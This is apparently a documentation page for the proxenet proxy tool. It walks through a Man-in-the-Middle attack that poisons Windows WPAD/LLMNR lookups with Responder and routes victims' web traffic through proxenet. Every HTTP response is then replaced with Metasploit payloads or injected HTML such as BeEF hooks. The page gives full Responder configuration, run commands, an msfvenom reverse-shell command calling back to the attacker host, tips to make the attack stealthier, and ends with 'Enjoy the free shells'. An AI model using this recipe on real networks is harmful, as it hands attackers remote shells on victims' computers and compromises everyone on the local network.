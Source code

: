# Proxenet-In-The-Middle attack #

`proxenet` can also be used to deliver automated payloads via a
Man-in-the-Middle attack. This can be done with the help of the awesome tool
[Responder](https://github.com/SpiderLabs/Responder) in two easy steps.


## Network setup ##

We will the Windows hosts on the network `192.168.56.0/24`. Our evil box will be
at `192.168.56.1`.

Let's do this.


## Responder setup ##

We will use `Responder` to spoof NetBIOS packets and poison local network
Windows workstation WPAD configuration to our evil box. The configuration is
pretty easy since we don't need any feature from `Responder` except the
poisoning.

**_Note_**: I used _jrmdev_ version of `Responder` because it is way cleaner
that the master version from SpiderLabs, and has better support for WPAD and
proxy forwarding. You can clone it from GitHub:

```
$ git clone https://github.com/jrmdev/Responder.git
$ cd Responder && git checkout -b remotes/origin/responder-refactoring
```

We only want to use the LLMNR and WPAD functionalities, so we will disable all
the rest. Simply set it up with the following configuration:
```
[Responder Core]
SQL = Off
SMB = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = On
HTTPS = Off
DNS = Off
LDAP = Off
Challenge = 1122334455667788
Database = Responder.db
SessionLog = Responder-Session.log
PoisonersLog = Poisoners-Session.log
AnalyzeLog = Analyzer-Session.log
RespondTo =
RespondToName = WPAD
DontRespondTo =
DontRespondToName =

[HTTP Server]
Serve-Always = Off
Serve-Exe = Off
Serve-Html = Off
HtmlFilename = files/AccessDenied.html
ExeFilename = files/BindShell.exe
ExeDownloadName = ProxyClient.exe
WPADScript = function FindProxyForURL(url, host){ return 'PROXY 192.168.56.1:8008';} ; change this address to your situation
HTMLToInject = <h1>pwn</h1>

[HTTPS Server]
SSLCert = certs/responder.crt
SSLKey = certs/responder.key
```

And just run it to forward to our `proxenet` (which will be listening on
`192.168.56.1:8008` - see next part).
```
sudo python2 Responder.py -v -I vboxnet0 -w
```

`Responder` will now poison all the requests to our `proxenet` process.

![nbt-poison](img/nbt-poison.png)


## proxenet setup ##

Create or edit the `proxenet` plugin configuration file, `$HOME/.proxenet.ini`
with the following sections.
```
[oPhishPoison]
; This should point to the payload to be inserted as the HTTP response.
; For example:
; msfvenom -p windows/reverse_tcp_shell -f raw -b '\x0d\x0a\x00\xff' -o mypayload LHOST=192.168.56.1 LPORT=4444
msfpayload   = %(home)s/tmp/my_payload

; Point to Python binary
python       = /usr/bin/python2.7

; Download https://gist.github.com/hugsy/18aa43255fd4d905a379#file-xor-payload-py
; and copy its path to this configuration script.
xor_payload  = %(home)s/code/xor-payload/xor-payload.py

; This should point to the HTML page to inject every time a user fetches
; any HTML page
html_inject_stub = %(home)s/tmp/injected_page.html
```
The `html_inject_stub` option can be used also to easily inject your BeEF hooks
too.

The plugin `oPhishPoison.py` (available in the `proxenet-plugins` GitHub
repository) will deal with the substitution of the traffic the way you want.
You can insert any Metasploit Framework payload or an HTA page. The choice is
yours!

Add the plugin `oPhishPoison.py` to the autoload directory of `proxenet` and
start it.
```
$ ln -sf proxenet-plugins/oPhishPoison.py proxenet-plugins/autoload/oPhishPoison.py
$ ./proxenet -b 192.168.56.1 -p 8008 -i -N
```

Adding the `-N` option disables the SSL interception and make it stealthier. The
`-i` option forces `proxenet` to use the Internet Explorer compatibility mode.


## What's next?

Literally, nothing! The MitM will operate in a totally transparent way, that's
the beauty of it.

   1. The Windows hosts of the victims will get poisoned by `Responder` to point
   the WPAD NetBios name to our hosts.
   2. Whenever, the victim will use their web browser setup in
   "Auto-configuration".
   3. Every HTTP request will go through `proxenet` and the response will be
   poisoned with whatever content you setup.
   4. Enjoy the free shells !


## Live demo

Click [here](https://vid.me/ntWe) for a live demo.
